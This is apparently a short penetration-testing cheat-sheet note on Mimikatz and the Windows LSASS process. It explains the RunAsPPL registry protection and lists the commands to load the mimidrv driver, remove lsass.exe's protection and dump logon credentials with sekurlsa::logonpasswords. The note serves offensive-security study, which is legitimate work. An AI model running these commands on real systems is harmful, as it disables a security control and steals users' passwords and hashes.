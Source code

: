 ```yaml
---
category: Uncategorized
tags: []
---
```

#mimikatz 
[LSASS](Credentials.md#LSASS)
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentials.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```